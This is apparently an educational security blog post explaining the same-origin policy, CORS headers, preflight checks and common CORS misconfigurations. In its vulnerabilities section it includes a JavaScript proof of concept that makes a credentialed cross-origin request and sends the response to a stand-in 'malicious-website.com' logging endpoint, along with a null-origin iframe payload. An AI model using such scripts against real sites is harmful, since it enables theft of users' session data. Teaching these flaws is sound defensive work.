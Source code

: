 ```yaml
---
title: "Cross-Origin Resource sharing (CORS)"
author: "Adria Pages Torruella"
date: 2023-12-03 17:30:00 +0800
categories: [Web Vulnerabilities]
tags: [Web,HTTP,CORS]
math: true
render_with_liquid: false
---
```

![Untitled](/img/posts/CORS/title.png)

CORS is a browser mechanism which enables access to resources that reside outside of a given domain. If it is poorly configured, it could lead to cross-domain attacks. 



To better understand CORS, it’s important to understand the **Same Origin Policy** **(SOP)** first

## Same-origin policy (SOP)

This security mechanism aims to prevent websites from attacking each other. It is used by the browsers to restrict scripts on one origin to access data from  another one. 

>Remember that an origin is the URI scheme, domain and and port number. A site is just the Top Level Domain (TLD) and the TLD+1.
{: .prompt-info}

This policy is important because when a browser send a request to an origin, it adds all the cookies, including authentication session cookies. Then, when accessing malicious sites, the site could execute scripts and do request to other origins and those requests will have your cookies, executing actions on their behalf.  

The SOP avoids this by limiting the access that JavaScript code has to content loaded cross-domain. However, it is allowed to load page resources from other origins, for example `<img>` , `<video>` and even `<script>`  but any JavaScript on the page won’t be able to read the contents. 

- Some objects are writable but not readable cross-domain: `location` and `location.href` properties
- Other objects are readable but not writable cross-domain: `length`  and `closed` property of the `window` property.
- The `replace` function can be called cross-domain on the `location` object
- The `close`, `blur`, `postMessage`and `focus` functions can be called on a new window cross-domain.
- Cookies are often accessible from all subdomains of a site (unless the `HttpOnly` flag is used, which only allow the access to cookies when doing HTTP requests and avoid JavaScript to access them).

You can relax SOP if two domains that are part of the same fully qualified domain name, for example test.com and website.test.com by setting the same `document.domain` to test.com. 

## **Access-Control-Allow-Origin (ACAO)**

Since SOP is very restrictive and nowadays websites need to interact with subdomains or third-parties, most site require full cross-origin access. This is where CORS appears. It uses several HTTP headers to define trusted web origins. These headers are exchanged between the browser and the cross-origin website. 

One of the headers is the `Access-Control-Allow-Origin` header. This header identifies the permitted origin of the request. The browser checks if the origin i the same as the page where the cross-origin request is being executed. If not, it doesn’t allow access. 

The specification of `Access-Control-Allow-Origin` permits to define multiple origins, however browsers don’t support it. It also allows the `null` and the wildcard `*` values. If a server wants to allow several specific origins, the recommended way to do it is to have your server read the Origin header  from the client, compare that to the list of origins you would like to  allow, and if it matches, echo the value of the `Origin` header back to the client as the `Access-Control-Allow-Origin` header in the response.

The default behavior of cross-origin requests is to be passed without credentials such as cookies, however, the servers can permit it by setting the  `Access-Control-Allow-Credentials` to `true`. Otherwise, if credentials were sent to the request but the response header is not `true`, the browser won’t allow to read the response. 

>Wildcards cannot be used within any other value. For example, the following header is **not** valid:
```
Access-Control-Allow-Origin: https://*.normal-website.com
```
In addition to this restriction, the wildcard origin can’t be used with `Access-Control-Allow-Credentials` = `true`
{: .prompt-info}

## Pre-flight checks

A pre-flight check is a preliminary HTTP request (using the `OPTIONS` method) sent by a web browser to a server before making the actual cross-origin request.

When a web page makes a cross-origin HTTP request that is not a simple request (e.g., includes certain headers, or uses methods other than GET, HEAD, or POST), the browser sends an HTTP OPTIONS request to the server as a pre-flight check. This pre-flight request includes headers such as `Origin` (indicating the origin of the requesting site), `Access-Control-Request-Method` (indicating the HTTP method that will be used in the actual request), and possibly `Access-Control-Request-Headers` (listing the headers that will be included in the actual request).

The server needs to respond to this pre-flight request with the appropriate CORS headers, indicating whether the actual request is permitted. The key CORS headers in the response include:

- `Access-Control-Allow-Origin`: Specifies which origins are allowed to access the resource.
- `Access-Control-Allow-Methods`: Specifies the HTTP methods that are allowed when accessing the resource.
- `Access-Control-Allow-Headers`: Specifies which HTTP headers are allowed in the actual request.

If the server responds with the appropriate CORS headers and indicates that the actual request is allowed, the browser will proceed to make the actual cross-origin request. If the pre-flight check fails, the browser will block the actual request, and the web page won't be able to access the requested resource.

>Note that CORS and SOP applies to JavaScript, so requests sent through forms are not subject to CORS and SOP, hence, a good CORS implementation doesn’t imply that the web is not vulnerable to CSRF.
{: .prompt-info}

## Vulnerabilities

Since maintaining a list of trusted origins is difficult and requires maintenance, some applications read the `Origin` header and include its value to the `Access-Control-Allow-Origin` header, without checking if it is a trusted origin or not. 

Because the application reflects arbitrary origins in the `Access-Control-Allow-Origin` header, this means that absolutely any domain can access resources from the vulnerable domain. If it also has the `Access-Control-Allow-Credentials: true`, credentials can be stolen.

Lets see an example: 

In this request I added the Origin Header with a made up URL: 

![Untitled](/img/posts/CORS/Untitled.png)

If we analyze the response, we can see that the Origin is added in the Allow Origin header and it also allows credentials, so we could exploit this to perform a cross origin request from a malicious site. 

![Untitled](/img/posts/CORS/Untitled%201.png)

If a malicious site had this script: 

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','vulnerablesite.com/endpoint',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='malicious-website.com/log?key='+this.responseText;
    };
</script>
```

The cross-request would happen and the private data could be extracted in the malicious server by checking the logs in the /log endpoint. 

Another vulnerability may arise when a server does check the origin with a whitelist, but it allow all subdomains by checking URL prefixes or suffixes. If the check is incorrectly, an attacker could try to create its own domain to bypass this check. 

For example, if the server checks for the  `normal-website.com` domain incorrectly, the malicious domains: `maliciousnormal-website.com` or `normal-website.com.malicious.net` could bypass the check. 

It is also allowed to specify the `null` origin value and some applications may have it whitelisted. An attacker could create requests containing the `null` origin by using sandboxed `iframes`

`<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>.......</script>"</iframe>`

Last but not least, if a server trust an origin which is vulnerable to XSS, an attacker could inject the XSS code and access de data.
